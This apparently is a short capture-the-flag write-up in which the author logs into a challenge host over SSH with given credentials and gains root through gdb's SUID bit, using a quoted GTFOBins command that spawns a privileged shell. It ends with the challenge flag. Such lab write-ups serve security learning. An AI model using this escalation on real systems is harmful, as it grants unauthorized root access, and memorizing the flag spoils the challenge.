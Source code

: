 
Enter the digital network of the Assassins Brotherhood. Prove your worth in this cyber-espionage challenge, where ascending brings greater privileges, as each Assassins follow the hierarchy very strictly . Uncover the brotherhood's secrets.

nc 0.cloud.chals.io 24415

Similar to first one connect to ssh using
username: `ezio`
password: `renaissance`

now we need to escalate privelege escalation
## [SUID](https://gtfobins.github.io/gtfobins/gdb/#suid)


If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

- This requires that GDB is compiled with Python support.
    
    ```shell

    install -m =xs $(which gdb) .
    
    gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
    ```

This is old privilege access

![[Pasted image 20240810231210.png]]

After doing GTFO suid

![[Pasted image 20240810231434.png]]

The flag is
```
KPMG_CTF{7a216f8be662e501013208b8a398cde4}
```
